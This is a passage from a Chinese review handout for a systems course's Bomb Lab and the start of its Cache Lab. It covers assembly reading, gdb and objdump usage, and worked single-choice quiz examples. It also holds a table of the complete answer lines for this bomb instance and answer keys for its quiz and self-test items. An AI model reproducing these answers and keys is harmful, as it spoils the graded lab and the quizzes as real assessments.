2d: retrdx 是累加和，rax 是当前节点的 key。每次先 add %rax,%rdx，再 cmp %rsi,%rax 比较 key 与目标：相等就跳到 0x2a 返回累加和；jle 表示 key ≤ 目标（且不相等时 key < 目标），走右孩子 0x10；否则走左孩子 0x8。指针为空的路径把 -1 放进 rdx。用一棵 4、2、5、7 的树测试：找 5 的路径是 4 → 7 → 5，和是 16；找 3 时在 2 处要比较 3 与 2：3 大于 2，应走右孩子；右孩子为空，返回 -1。
⚠ 递归版和循环版只是写法不同
fun7 型函数在考试里常以递归出现，形状是“空指针返回一个常数、否则比较 key、然后 return 常数 + fun7(左/右)”，也可能是“返回 2*fun7(...) + 1”这样的组合。看到这种题，先把递归的 C 写出来，再代入目标值从叶子往上算；不要一上来就逐条模拟寄存器。树节点的偏移要看结构体：long key 在 0，left 在 8，right 在 16；如果 key 是 int，left/right 的偏移可能仍是 8 和 16，但 key 只占 4 字节。
4.5 遇到陌生变体的处理顺序#
拿到一个没见过的炸弹，比较稳的顺序是：先用 strings 和 objdump -s -j .rodata 找所有可疑的常量串、格式串和表；再看每个 phase 的 sscanf 格式串，确定输入是几个整数、几个字符、几个字符串；然后找每个 phase 里的 explode_bomb 调用，爆炸点往往直接暴露“比较在哪一行”；最后才逐段读循环和表。输入空间不大时（phase 4 的 15 个值、phase 5 的 16 个起点、隐藏关的 8192 个 0/1 串），写几行程序枚举比死读汇编快得多，前提是先把关键表和比较条件抄对。
常见问题：变体里的常数和本讲义不一样，答案还能用吗？
不能用。答案只对本文分析的这个二进制成立，可以复用的是方法：找常量串、读数组、恢复递推式、展开递归、模拟状态机。考试时按第 2.9 节的三步法现场推。
第五部分 测验题型与单选例题#
学期末的 Lab 测验是纸笔考试，全部是单选题，每个实验 5 题、每题 2 分。题目不会让你真的运行炸弹，而是把材料印在卷面上：一段反汇编、一段 objdump -s 打印的只读数据、一段 gdb 输出，问某个输入会不会爆炸、某个地址或值是多少；另一类题直接考 gdb 和 objdump 的用法，四个选项各是一条说法，选出正确或错误的那一条。2025 年 Bomb Lab 的 5 道题里，2 道考 gdb（断点的实现原理、常用命令的含义），1 道考 phase 1 的字符串比较与查找常量串的方法，另外 2 道给出 phase 2、phase 3 的反汇编，要求选出会爆炸或不会爆炸的输入。
做这类题比拆弹容易一些，因为选项里已经给出了候选输入，不必从零推出答案，只要把每个选项代入汇编的条件检查一遍。检查时盯住三样东西：比较指令的两个操作数和随后跳转的条件（有符号还是无符号），循环变量的初值和终止条件，以及跳转表、数组的下标是怎样算出来的。本部分的例题都用本讲义的新编函数或本学期的炸弹，每个选项是否会爆炸都由等价的 C 实现核对（sim/choice/bomb_choice.c，复用 sim/phase_recon.c）。
5.1 读汇编：循环与函数的功能#
例 1（单选）下面是第 2.6 节的 table_sum，table 是一个有 8 个 int 元素的静态数组，依次为 3、1、4、1、5、9、2、6。关于这段代码，正确的一项是：
A. 循环执行 8 次，返回 8
B. 循环执行 7 次，返回 25
C. 循环执行 8 次，返回 31
D. 循环执行 9 次，返回值取决于数组之后的内存
0000000000000000 <table_sum>:
0: mov $0x0,%eax
5: mov $0x0,%edx
a: jmp 19 <table_sum+0x19>
c: movslq %eax,%rcx
f: add 0x0(,%rcx,4),%edx
16: add $0x1,%eax
19: cmp $0x7,%eax
1c: jle c <table_sum+0xc>
1e: mov %edx,%eax答案
C
eax 从 0 开始，是循环变量；edx 是累加和；0x0(,%rcx,4) 说明被累加的是一个以 eax 为下标的 int 数组。循环先跳到 0x19 检查条件，条件是 eax ≤ 7（jle），所以 eax 取 0 到 7，共 8 次，返回 3 + 1 + 4 + 1 + 5 + 9 + 2 + 6 = 31。B 把 cmp $0x7 加 jle 误读成 i < 7；D 则把条件多算了一次。A 返回的是循环次数而不是和：返回值来自 mov %edx,%eax，edx 是累加和，eax 才是计数器，这一步正好把两者分开。
5.2 给汇编，判断输入会不会爆炸#
例 2（单选）下面的三参数函数 key_check(a, b, c) 返回 1 表示“不爆炸”。哪一组输入不会爆炸？
A. 2 7 102 B. 2 7 51 C. 9 28 102 D. 2 6 102
0000000000000000 <key_check>:
0: cmp $0x7,%edi
3: ja 18 <key_check+0x18>
5: lea 0x1(%rdi,%rdi,2),%eax
9: cmp %esi,%eax
b: jne 1e <key_check+0x1e>
d: cmp $0x66,%edx
10: jne 24 <key_check+0x24>
12: mov $0x1,%eax
17: ret答案
A
第一行 cmp $0x7,%edi 加 ja 是无符号的范围检查，a 必须在 0 到 7 之间；lea 0x1(%rdi,%rdi,2),%eax 算 3a + 1，要求等于 b；最后要求 c = 0x66 = 102。A 满足全部三个条件。B 的 51 是 0x33：源码里写的是 (c ^ 0x55) != 0x33，编译器把它折叠成了 c 与 0x66 的比较，按源码里出现的常数 0x33 去填就错了（见下面的说明框）。C 满足 b = 3a + 1，但 a = 9 超出了范围，第一个检查就失败。D 的 b 不等于 3 × 2 + 1。
⚠ 常数折叠会“吃掉”源码里的运算
源码里的异或、加减乘，如果只用来和常数比较，编译器会在编译期算成一个等价的常数比较。读汇编时不要去找 xor 指令，而要看比较指令的操作数；本例 0x33 ^ 0x55 = 0x66，于是汇编里只剩下 cmp $0x66。同理，3a + 1 被 lea 合并成一条指令，也不影响推导。
例 3（单选）本学期炸弹的 phase 2（第 3.2 节）读入六个整数，要求前两个数为 0、1，之后每个数等于前一个数加上再前一个数的 2 倍。下面哪个输入不会爆炸？
A. 0 1 1 2 3 5 B. 0 1 2 3 5 8 C. 1 1 2 3 5 8 D. 0 1 1 3 5 11
答案
D
按递推式 a[i] = a[i–1] + 2a[i–2] 从 0、1 出发，依次得到 1、3、5、11，正是 D。A 是斐波那契数列的前六项，把“加 2 倍”看成了“加 1 倍”，第四个数应是 1 + 2 × 1 = 3 而不是 2。B 第三个数就错了（1 + 0 = 1，不是 2）。C 的第一个数不是 0，在进入循环之前的 cmpl $0x0,(%rsp) 就会爆炸。读这类题的汇编时，关键是认出循环里取 a[i–1] 和 a[i–2] 的两条 mov，以及一步算出 a[i–1] + 2a[i–2] 的 lea (%rdx,%rcx,2),%edx：这里的 lea 是“乘 2 加”，并不访问内存。
例 4（单选）phase 3 用 sscanf(input, "%d %c %d", ...) 读入三项，第一个数为 3 时，跳转表把控制转到要求字符为 'u'、第二个整数为 0x1fa 的分支（第 3.3 节）。下面哪个输入能通过？
A. 3 u 0x1fa B. 3 u 506 C. 3 z 420 D. 3 o 506
答案
B
0x1fa = 506，B 的三项都满足。A 是最常见的错误：%d 只认十进制数字，读到“0x1fa”时只转换出开头的 0，在 'x' 处停下，第二个整数是 0 而不是 506，比较失败。C 是第一个数为 4 的分支要求的字符和数（'z' 与 0x1a4 = 420），D 的字符属于第一个数为 0 的分支。做跳转表题时，先用第一个数算出跳到哪个分支，再只看那个分支里的比较，不要把各个分支的常数混在一起。
5.3 gdb 的命令与输出#
例 5（单选）关于 gdb 的用法，说法错误的一项是：
A. break explode_bomb 只是让程序在进入 explode_bomb 时停下；如果此时继续执行，炸弹照样会爆炸并上报
B. 在 gdb 的命令里，寄存器要写成 %rsi，与 AT&T 汇编的写法一致
C. x/s $rsi 把 rsi 的值当作地址，打印那里的字符串
D. nexti 执行一条指令，遇到 call 时把整个被调用函数执行完再停下；stepi 遇到 call 时停在被调用函数的第一条指令
答案
B
gdb 中引用寄存器用 $ 前缀，写成 $rsi；%rsi 是汇编语法，在 gdb 命令里会报错（第 6.2 节易错点 4）。A 正确，而且是测验中反复出现的考点：断点只负责停下来，并不会跳过函数；停在 explode_bomb 之后应当用 kill 结束本次运行，或者回到上一关检查答案，绝不能 continue。D 准确描述了 nexti 与 stepi 的区别（第 1.3 节）。C 是查看 phase 1 常量串的标准做法。
例 6（单选）gdb 在某条指令处设置软件断点，程序执行到那里就停下，交给 gdb 处理。在 x86-64 上，这一般是怎样实现的？
A. gdb 修改函数的返回地址，让函数返回时跳回 gdb
B. gdb 以单步方式执行整个程序，每执行一条指令就比较一次 rip 与断点地址
C. gdb 把断点处的指令改成 nop，CPU 执行到 nop 时会自动暂停
D. gdb 把断点处指令的第一个字节改成 0xCC（int3 指令），执行到这里时 CPU 触发陷阱，由内核通知 gdb；继续执行前 gdb 再写回原来的字节，并把 rip 退回断点处
答案
D
软件断点的标准做法是把指令的第一个字节替换成 0xCC，即单字节的 int3 指令。CPU 执行 int3 时产生陷阱，内核把它作为 SIGTRAP 信号交给正在跟踪这个进程的 gdb。继续执行之前，gdb 要写回原来的字节，并把 rip 减 1 退回断点处，让原指令照常执行。这也是第 16 讲异常的一个实例：int3 是陷阱，它的处理程序返回到下一条指令。B 描述的单步执行可以做到同样的效果，但程序会慢上几个数量级，不是断点的实现方式。C 不对，nop 什么也不做，CPU 不会因此暂停。A 描述的是缓冲区溢出攻击，与调试器无关。
例 7（单选）程序停在 phase 3 的 sscanf 返回之后。第一个整数存放在 $rsp+0xc，字符存放在 $rsp+7，第二个整数存放在 $rsp+8。根据下面的输出，正确的一项是：
A. 输入的第一个整数是 0，第二个整数是 890
B. $rsp+8 处存放的是字符 'o'
C. x/3dw $rsp+8 一次看 3 个字节
D. 输出中的 2 是输入的第三项
(gdb) x/3dw $rsp+8
0xfb375ffffc68: 890 0 2
(gdb) x/1cb $rsp+7
0xfb375ffffc67: 111 'o'答案
A
x/3dw $rsp+8 从 $rsp+8 开始，以十进制（d）打印 3 个 4 字节字（w）。第一个在 $rsp+8，是第二个整数 890；第二个在 $rsp+0xc，是第一个整数 0；第三个在 $rsp+0x10，已经超出这三个变量，是栈上的其他数据，所以 D 不对。字符在 $rsp+7，要用 x/1cb 按一个字节、字符格式查看，输出 111 'o'，B 把位置弄错了。C 混淆了单位：w 表示 4 字节的字，3 个字共 12 字节；按字节看要用 b。
5.4 地址的计算#
例 8（单选）phase 1 中有一条指令 lea 0x1c8c(%rip),%rsi，它位于地址 0x1575，长度为 7 字节。它算出的有效地址是：
A. 0x1c8c B. 0x3201 C. 0x3208 D. 0x157c
答案
C
RIP 相对寻址用的是下一条指令的地址：0x1575 + 7 = 0x157c，再加上位移 0x1c8c，得 0x3208，正是 phase 1 常量串的位置，objdump 在注释里也会写出 # 3208。B 是用当前指令的地址相加的结果，差了 7 个字节；A 只是位移本身；D 只是下一条指令的地址。
例 9（单选）某函数用跳转表实现 switch，汇编和只读数据如下。x = 3 时，jmp *%rax 跳转到的地址是：
A. 0x326c B. 0x100001624 C. 0xffffe3c4 D. 0x1624
lea 0x1c3d(%rip),%rdx # 3260 <table>
mov %edi,%eax
movslq (%rdx,%rax,4),%rax
add %rdx,%rax
jmp *%rax
Contents of section .rodata:
3260 a4f0ffff b8e3ffff 2ce4ffff c4e3ffff答案
D
表基址是 0x3260，每项 4 字节，x = 3 的表项在 0x3260 + 12 = 0x326c，四个字节是 c4 e3 ff ff。按小端法读，这个 32 位值是 0xffffe3c4。movslq 做符号扩展，它代表的是负数 –0x1c3c，再加上表基址：0x3260 – 0x1c3c = 0x1624。B 把表项当成无符号数做零扩展，得到一个远离代码段的地址；C 把表项当成绝对地址，这是 8 字节绝对地址的跳转表（jmp *0x...(,%rdi,8)）的读法，用在这里就错了；A 是表项本身所在的地址。另外，如果把字节按大端读成 0xc4e3ffff，结果也会完全不同。
5.5 还原出的 C 是否正确#
例 10（单选）下面是 phase 5 的一份错误的 C 还原（正确的版本见第 3.5 节：x 先与 0xf，循环中先更新状态再累加新状态，步数从 0 开始）。按这份错误的代码手算，输入 x = 8 时，循环结束后 steps 与 sum 分别是：
A. 7 与 48 B. 8 与 41 C. 8 与 48 D. 7 与 41
void phase_5_bad(char *s) {
int x, y, state, steps = 1, sum = 0;
if (sscanf(s, "%d %d", &x, &y) <= 1) explode_bomb();
state = x;
while (state != 15) {
sum += state;
state = array_0[state]; /* 符号表中名为 array.0 */
steps++;
}
if (steps != 7 || sum != y) explode_bomb();
}答案
B
从状态 8 出发，经过 7 步到达 15，途经的状态依次是 0、10、1、2、14、6、15。正确的版本累加的是每一步之后的新状态，和为 48，步数为 7，这就是答案“8 48”。这份错误的代码有两处偏差：它在更新状态之前累加，加进了起点 8、漏掉了终点 15，和变成 48 + 8 – 15 = 41；步数从 1 开始，结果多 1，变成 8。所以按这份代码，正确的输入“8 48”反而会爆炸。A 是正确版本的结果；C、D 各只改对了一处。代码里还有第三处错误，测验中可能以另一道题出现：state = x 少了 & 0xf，输入 24 时会越界访问数组。
⚠ 检查还原的 C，要顺着数据流而不是变量名
还原错误通常藏在三个地方：循环变量的初值、自增发生在读之前还是之后、数组下标有没有截断。检查时顺着汇编的寄存器走：哪个寄存器在循环前被清零、哪个在循环体里被加减、哪个在每次迭代中被重新赋值，再对照 C 语句的顺序。
5.6 工具与规则#
例 11（单选）想快速列出炸弹二进制中所有可打印的字符串，以便猜测 phase 1 要比较的常量串，最直接的命令是：
A. objdump -d bomb B. objdump -t bomb C. strings bomb D. ldd bomb
答案
C
strings 扫描整个文件，把连续的可打印字符打印出来，phase 1 的常量串、各关的 sscanf 格式串都会出现在结果里。不过它只能帮你缩小范围，到底是哪一个串，还要看 phase 1 中 lea ...(%rip),%rsi 算出的地址（例 8），或者在 gdb 里用 x/s $rsi 确认。B 打印符号表，只有函数和变量的名字与地址，没有字符串的内容；A 只反汇编代码段；D 列出程序依赖的共享库，与字符串无关。如果想按地址查看只读数据，用 objdump -s -j .rodata bomb。
例 12（单选）关于本学期 Bomb Lab 的评分规则，正确的一项是：
A. 每次爆炸扣 0.5 分，最多扣 20 分；隐藏关不计分
B. 每次爆炸扣 1 分，没有上限
C. 只有在 Lab 截止前爆炸才会上报和扣分
D. 隐藏关通过后可以抵消爆炸扣掉的分数
答案
A
按实验说明，六关中前四关各 15 分，phase 5、phase 6 各 20 分，共 100 分；每次爆炸都会向 Autolab 上报并扣 0.5 分，最多扣 20 分；隐藏关不计入分数（第 1.1 节、第 0 部分）。B 的扣分数和上限都不对。C 不对：上报由炸弹自己完成，只要能连上服务器就会发生，与是否截止无关，所以第 1.4 节建议始终在断网环境中运行。D 不对，隐藏关与分数无关。
第六部分 速查与自测#
这一部分把全讲义最常用的表格集中在一处，便于考前快速翻看。速查表之后是易错点清单、九道单选自测题（答案统一放在最后）和中英术语对照。
6.1 速查表#
表 14 寄存器与调用约定（x86-64 System V）
| 用途 | 寄存器 |
|---|---|
| 参数 1–6 | %rdi %rsi %rdx %rcx %r8 %r9 |
| 返回值 | %rax（32 位用 %eax） |
| 被调用者保存（跨 call 不变） | %rbx %rbp %r12 %r13 %r14 %r15 |
| 调用者保存（call 后可能改变） | %rax、参数寄存器、%r10 %r11 |
| 栈 | 向低地址增长；call 前 %rsp%16=0，入口为 8，返回地址在 (%rsp) |
表 15 读汇编时最常见的模式
| 汇编 | 含义 | 对应的 C |
|---|---|---|
lea 0x3(%rdi,%rsi,8),%rax | 地址计算当算术用 | rax = rdi + 8*rsi + 3 |
cmp a,b + jg/jl/ja/jb | 比较后按有符号/无符号跳转 | a > b 等条件 |
test %eax,%eax + je/jne | 判断是否为零或相等 | x == 0、x != 0 |
cmovge %rsi,%rax | 条件传送，不跳转 | rax = (条件 ? rsi : rax) |
movzbl/movsbl | 8 位零扩展/符号扩展 | (unsigned char)x / (signed char)x |
movslq %eax,%rax | 32 位符号扩展到 64 位 | (long)i |
add 0x0(,%rcx,4),%edx | 数组元素，4 字节 | s += a[i] |
mov 0x8(%rdx),%rdx | 链表 next 指针 | p = p->next |
mov 0x10(%rax),%rax | 二叉树右孩子 | p = p->right |
jmp *0x402008(,%rdi,8) | 跳转表，8 字节绝对地址 | switch 跳转 |
movslq (%rdx,%rax,4),%rax; add %rdx,%rax | 跳转表，4 字节相对偏移 | 目标 = 表基址 + 偏移 |
表 16 gdb 速查
| 命令 | 用途 |
|---|---|
break phase_3 / break *phase_3+0x29 | 在函数入口 / 函数内偏移处下断点 |
run answers.txt | 以文件作为输入运行 |
stepi / nexti | 单步一条指令 / 越过 call |
disas phase_3 | 反汇编当前函数 |
info registers / info registers rdi rsi | 看全部 / 指定寄存器 |
x/s $rsi | 以字符串看内存 |
x/6dw $rsp / x/8gx $rax | 6 个 4 字节 int / 8 个 8 字节 giant |
x/16dw &'array.0' | 带点号的符号要加单引号 |
p/x $rax / p 0x1fa | 十六进制打印 / 十六进制字面量转十进制 |
display/6dw $rsp | 每次停下来自动打印这 6 个整数 |
kill | 结束本次运行，保留断点 |
表 17 objdump 速查
| 命令 | 用途 |
|---|---|
objdump -d bomb | 反汇编代码段 |
objdump -t bomb | 打印符号表（找 phase、node、input_strings） |
objdump -s -j .rodata bomb | 打印只读数据段（格式串、表、常量串） |
objdump -d --no-show-raw-insn | 省略机器码列，排版更窄 |
表 18 六关与隐藏关答案速查（仅对本实例）
| 关卡 | 答案行 |
|---|---|
| phase 1 | Is there really APTX4869 in the world? |
| phase 2 | 0 1 1 3 5 11 NothingThatHasMeaning1sEasy... |
| phase 3 | 0 o 890 |
| phase 4 | 9 27 ...EasyDoesntEnter1ntoGrownUpLife. |
| phase 5 | 8 48 |
| phase 6 | 5 1 3 4 2 6 |
| 隐藏关 | 1001000101101 |
6.2 易错点清单#
把本讲义里出现过的坑按出现频率排一遍，考前读一遍就能避开大半。
表 19 Bomb Lab 的易错点
| 序号 | 易错点 | 正确做法 |
|---|---|---|
| 1 | 答案文件最后一行没有换行 | 每行都以换行结尾；cat -A 检查 $ |
| 2 | 从 x/s 输出里把双引号一起复制 | 双引号只是 gdb 的边界标记，不属于内容 |
| 3 | 手算十六进制换算出错 | p 0x1fa 得 506，p/x 506 得 0x1fa |
| 4 | 把 %rsi 写进 gdb 命令 | gdb 里寄存器写 $rsi |
| 5 | 用 objdump 的文件内地址去 x | PIE 运行时地址要加基址；用符号名或断点后看寄存器 |
| 6 | 把 jmp *%rax 的表项当绝对地址 | 相对偏移要 movslq 后加表基址 |
| 7 | 把 cmov 的条件方向看反 | 先看 cmp 的两种操作数，再看 cmov 的条件码 |
| 8 | 把 lea 当成访问内存 | lea 只算地址；lea (%rdx,%rcx,2),%edx 是乘加 |
| 9 | 忘记 & 0xf 的截断 | phase 5 的 8、24、40、-8 等价 |
| 10 | 循环更新语句被读进循环体 | 先写 goto 版本，再按“往回跳”整理结构 |
| 11 | phase 6 漏了 n = n->next | 从 goto 整理成 for 时逐条核对 |
| 12 | 隐藏关入口只加了一行暗号 | phase 2 和 phase 4 两行都要追加 |
6.3 自测题#
九道单选题覆盖本讲义的主要知识点，答案和逐项分析在 6.4 节，建议先独立完成再对照。涉及输入能否通过的结论都由 sim/choice/bomb_choice.c 用等价的 C 实现核对。
1．objdump 输出 call 1ae5 <strings_not_equal> 中，1ae5 表示：
A. 程序运行时 strings_not_equal 的绝对地址
B. call 的目标地址；对 PIE 程序，它是相对于加载基址的偏移
C. 这条 call 指令自身的地址
D. call 指令中编码的相对位移
2．程序停在 phase 2 读完六个数之后，x/6dw $rsp 的输出是 0、1、1、3、5、11。$rsp+0x10 处的 4 字节整数是：
A. 1 B. 11 C. 3 D. 5
3．cmp %rdi,%rsi 之后紧跟 cmovge %rsi,%rax。当 rsi ≥ rdi（按有符号数比较）时，这两条指令执行后 rax 等于：
A. 原来的 rax B. rdi C. rsi D. rsi – rdi
4．phase 3 在 sscanf 返回后执行 cmp $0x2,%eax 和 jle 到爆炸处。如果输入只成功转换了两项，会怎样？
A. 爆炸，因为要求至少成功转换三项
B. 不爆炸，第三项按 0 处理
C. 不爆炸，sscanf 会等待继续输入
D. 程序因访问未初始化的变量而崩溃
5．phase 5 的第一个整数写成 24（第二个整数仍写 48），结果是：
A. 能通过，但需要把第二个整数改成 64
B. 不能通过，24 超出了数组的范围
C. 能通过，因为第一个数先与 0xf 相与，24 与 8 的低 4 位相同
D. 不能通过，第一个整数必须严格等于 8
6．隐藏关的入口，正确的说法是：
A. phase 2 和 phase 4 两行的末尾都要追加各自的暗号，并且要在第 6 关之后才检查
B. 只要在 phase 2 那一行追加暗号即可
C. 在答案文件末尾另起一行写暗号
D. 在 phase 6 那一行追加暗号
7．答案文件的最后一行如果没有以换行结尾，会怎样？
A. 只有 phase 1 会受影响，其他关用 sscanf 读数，不受影响
B. 没有影响，read_line 会自动补上换行
C. 炸弹会一直等待，直到从键盘输入换行
D. read_line 会删掉行尾的一个字符，没有换行时被删掉的是答案的最后一个字符，这一关比较失败
8．下列寄存器中，属于被调用者保存寄存器的是：
A. %rdi B. %rbx C. %rax D. %r10
9．phase 4 要求 func4(x, 0, 14) 的返回值为 27，且第二个整数也是 27。第一个整数 x 应取：
A. 7 B. 9 C. 11 D. 3
6.4 自测题答案#
1．B。objdump 把 call 指令中的相对位移加上下一条指令的地址，算出目标地址显示出来；对 PIE 程序，这是文件中的地址，也就是相对于加载基址的偏移，运行时还要加上基址，所以 A 不对。尖括号里的 <strings_not_equal> 是 objdump 根据符号表给出的提示。C 混淆了目标地址和指令自身的地址（指令地址在行首）；D 是机器码里真正编码的东西，objdump 显示的是算好的结果。
2．D。每个 int 占 4 字节，$rsp+0x10 = $rsp+16 是下标 4 的元素，即 5。C 是下标 3（$rsp+0xc）的 3，B 是下标 5（$rsp+0x14）的 11；A 是把 0x10 误当成十进制 10、再除以 4 取整到下标 2 得到的 1。
3．C。cmp %rdi,%rsi 计算 rsi – rdi 并设置条件码，cmovge 在“rsi ≥ rdi”时把 rsi 搬进 rax。B 把比较的方向看反了（AT&T 语法中 cmp 的第二个操作数在前）；A 是条件不成立时的结果；D 是 cmp 内部的差，cmp 只设置条件码，不保存差。
4．A。sscanf 返回成功转换的项数，cmp $0x2,%eax 加 jle 表示返回值 ≤ 2 就爆炸，所以必须三项都转换成功。B、C、D 描述的都不是 sscanf 的行为：它不会补 0，也不会等待输入（它读的是已经存在的字符串）；未转换的变量也不会被访问，因为在那之前就已经爆炸了。
5．C。phase 5 先执行 and $0xf 只保留低 4 位，24 = 0x18 的低 4 位是 8，与 8 进入同一个状态，第二个整数仍是 48（sim/choice/bomb_choice.c 实测 24 48、8 48、–8 48 都能通过）。B 忽略了截断；A 把截断理解成了别的运算；D 同样忽略了截断。
6．A。phase_defused 在第 6 次被调用时检查两个暗号，分别取自 phase 2 和 phase 4 那两行中多出来的 token，两个都对才进入隐藏关（第 3.7 节、第 6.2 节易错点 12）。B 是最常见的遗漏；C、D 的位置都不对。
7．D。read_line 把读到的行的最后一个字符当作换行删掉；最后一行没有换行时，被删掉的是答案本身的最后一个字符，比较失败。B、C 都不对，read_line 不会补换行，文件结束时也不会等待键盘。A 不对：数字题也可能因为最后一位被删掉而改变数值，例如“5 1 3 4 2 6”变成“5 1 3 4 2”，phase 6 读不满六个数就会爆炸。
8．B。被调用者保存寄存器是 %rbx、%rbp 和 %r12–%r15，被调用的函数如果要用它们，必须先保存、返回前恢复，func4 开头的 push %rbx 就是为此。%rdi 是第一个参数寄存器，%rax 是返回值寄存器，%r10 是临时寄存器，都属于调用者保存。
9．B。按第 3.4 节的二分递归，func4(9, 0, 14) 依次经过 mid = 7、11、9，返回 7 + 11 + 9 = 27。其余三个选项的返回值分别是 7（第一次就命中）、18（7 + 11）和 10（7 + 3），都不是 27；在 0 到 14 中只有 9 满足要求（bomb_choice.c 枚举）。
6.5 中英术语对照#
表 20 常用术语对照
| English | 中文 | 说明 |
|---|---|---|
| phase | 关卡 | 炸弹的六个检查阶段 |
| defuse | 拆除 | 输入正确、通过一关 |
| explode | 爆炸 | 输入错误，程序上报并结束 |
| disassemble | 反汇编 | 把机器码变成汇编 |
| breakpoint | 断点 | gdb 在指定位置暂停 |
| register | 寄存器 | rax、rdi 等 |
| stack frame | 栈帧 | 函数在栈上的局部状态 |
| caller-saved / callee-saved | 调用者保存 / 被调用者保存 | 跨 call 是否保持的约定 |
| jump table | 跳转表 | switch 的地址/偏移表 |
| linked list | 链表 | 节点通过 next 指针相连 |
| binary search tree | 二叉搜索树 | 左小右大的二叉树 |
| finite state machine | 有限状态机 | 隐藏关的 7 状态模型 |
| synchronizing sequence | 同步序列 | 使所有状态到达同一终态的输入串 |
—— Bomb Lab 讲义完 ——
计算机系统导论（ICS）
复习讲义 · Lab 专题
Cache Lab：缓存模拟器与面向缓存的矩阵转置（Understanding Cache Memories）
如何使用本讲义#
Cache Lab 把第 13 讲的高速缓存变成了两个动手任务。Part A 要求用 C 写一个缓存模拟器：读入 valgrind 产生的访存记录，按给定的 (s, E, b) 和 LRU 替换策略，数出命中、不命中和驱逐的次数，结果必须与参考程序 csim-ref 完全一致。Part B 要求为 32×32、64×64、60×68 三种规模写矩阵转置，在一个 1 KB 的直接映射缓存上让不命中次数尽可能少。
学期末的 Lab 测验是纸笔的单选题，所以本讲义的重点放在“为什么”：一个地址怎样拆成标记、组索引和块内偏移；LRU 和驱逐的准确含义是什么；某段转置代码会在哪里发生冲突；一种写法比另一种少多少次不命中，又是怎样算出来的。这些问题都能在纸上回答，也是 Part B 优化的出发点。
本讲义先用第 0 部分讲上手与测评，正文分十部分。第一部分讲规则、工具和评分。第二部分是 Part A：先讲模拟器的核心逻辑，再用三节讲清楚课程里没有专门讲过的几组库函数（getopt、strtol 与 errno、fopen 与 fscanf、stdout 与 stderr、退出码），每组都给出不依赖这些函数的手写写法，最后给出完整的模拟器。第三部分是 Part B 的准备：评测缓存的几何、矩阵在内存中怎样排列、不命中的下界，以及怎样数清每一次不命中。
第四、五、六部分分别讲 32×32、64×64、60×68 的转置。第七部分讨论本 Lab 没有用到的缓存优化：冲突不命中有多少，提高相联度、改变数据布局会怎样，以及写策略、缓存无关算法、多级分块、预取等。第八部分把 60×68 再推进一步：按整块读 A、再安排好 510 块的读取顺序，可以降到 1270 次；同时证明 1024 次达不到，任何写法都至少要 1025 次。第九部分按 Lab 测验的题型给单选例题，第十部分是速查表和单选自测题。
文中的程序都在 handout 的环境中运行过：第二部分的模拟器通过 test-csim 的全部 8 项测试（27/27），用 -v 逐行输出时与 csim-ref 一致，并通过了 valgrind 的内存检查；第四至六部分各种写法的不命中次数由 test-trans 或与它逐一相同的模型（第 3.3 节）测得，最终版本在 driver.py 下三种规模都拿到满分。
表 1 本讲义的内容地图
| 部分 | 内容 | 小节 |
|---|---|---|
| 上手与测评 | 环境、材料、构建与自测、按 Part/阶段的起步路线、提交前自检 | 0.1–0.4 |
| 规则与工具 | 两个 Part 与评分、trace 格式与工具、Part B 的编程规则 | 1.1–1.3 |
| Part A | 地址划分、数据结构与 LRU；C 库速成：命令行参数（argv、getopt）、字符串转整数（strtol、errno）、文件与输出（fopen、fscanf、stderr、退出码）；完整代码、常见错误 | 2.1–2.7 |
| Part B 准备 | 评测缓存与矩阵在内存中的排列、朴素下界、怎样数清每一次不命中 | 3.1–3.3 |
| 32×32 | 逐行转置、改变循环次序、分块、对角线冲突、先读后写、借 B 暂存 | 4.1–4.6 |
| 64×64 | 8×8 为何失效、各种块形状、两个要求的矛盾、拆四象限、对角分块的四块联动 | 5.1–5.5 |
| 60×68 | 几何、切出规整部分的尝试、8 列竖条、4 列竖条、离朴素下界多远 | 6.1–6.5 |
| 拓展 | 冲突不命中有多少、相联度、数据布局与行填充、写策略、递归转置、其他方法 | 7.1–7.6 |
| 深入拓展 | 按整块读 A、行带扫描与顺序搜索（1270 次）；1024 不可达、至少 1025 次的证明 | 8.1–8.4 |
| 测验题型 | 单选：实验说明与工具、地址划分与命中序列、模拟器的实现、转置的不命中 | 9.1–9.4 |
| 速查与自测 | 一页纸速查、易错点、自测题与答案 | 10.1–10.3 |
0 上手与测评#
Cache Lab 分成性质很不一样的两半。Part A 要从零写一个缓存模拟器，算法本身并不难，真正卡人的是几样课上没有讲过的 C 库函数（getopt、strtol、fscanf、calloc）和一两处指针算术；Part B 要为三种规模的矩阵写转置，让不命中尽可能少，这一半靠的是先算清缓存的几何、再用数据验证猜想。这一部分先讲环境、构建和评分，然后分别给出两个 Part 的起步方法，最后是一张“报错现象到原因”的速查表。
0.1 环境与材料#
在 Autolab 下载 cachelab-handout.tar，用 Linux 的 tar 解开。handout 中的 csim-ref、test-csim、test-trans 和 valgrind 都是 x86-64 Linux 的程序，在 Apple Silicon 的 Mac 上直接运行会报“Exec format error”，所以测试要在课程的 xLab 容器里做；容器里没有 valgrind 时，用 sudo apt-get install valgrind 安装。提交用的 tar 包也要在 Linux 上用 make 生成。
表 2 Cache Lab 的材料与用途
| 文件或目录 | 用途 | 使用要点 |
|---|---|---|
| cachelab.pdf | 官方实验说明（10 页） | 先读 §4 两个 Part 的规则、§5 评分、§6 自动测试、§7 提交 |
| csim-ref | Part A 的参考模拟器 | 带 -v 时逐行打印命中、不命中、驱逐，用来和自己的输出对照 |
| test-csim | Part A 的评分程序 | 8 组测试，前 7 组各 3 分、最后一组 6 分 |
| test-trans | Part B 的评分程序 | 先检查转置是否正确，再用 valgrind 记录访存并统计不命中 |
| driver.py | 完整评分 | 依次调用 test-csim、test-trans，输出与 Autolab 相同的折算分 |
| traces/ | valgrind 生成的访存记录 | Part A 的输入；格式为“操作 地址,字节数”，I 行忽略 |
| csim.c、trans.c | 要写的两个文件 | csim.c 需要自己创建；trans.c 只改 transpose_submit 及自己的函数 |
Makefile 用 -g -Wall -Werror -std=c99 编译，这两个选项会带来两个意外。-Werror 把所有警告都当成错误，调试时留下一个“赋值了却从未使用”的变量，编译就会失败。-std=c99 只提供 C 标准中的名字，unistd.h 中 getopt、optarg、optind 的声明被隐藏，所以 csim.c 要按实验说明 #include <getopt.h>，否则报“implicit declaration of function 'getopt'”（第 2.3 节）。
和其他 Lab 一样，代码通常在容器里写，本机文件夹里的 trans.c 可能还是最初的 handout 版本。分析之前先确认自己看的是不是最新的文件；草稿和最终版本都应当在本机另存一份，不要只放在容器里。
0.2 构建、自测与评分#
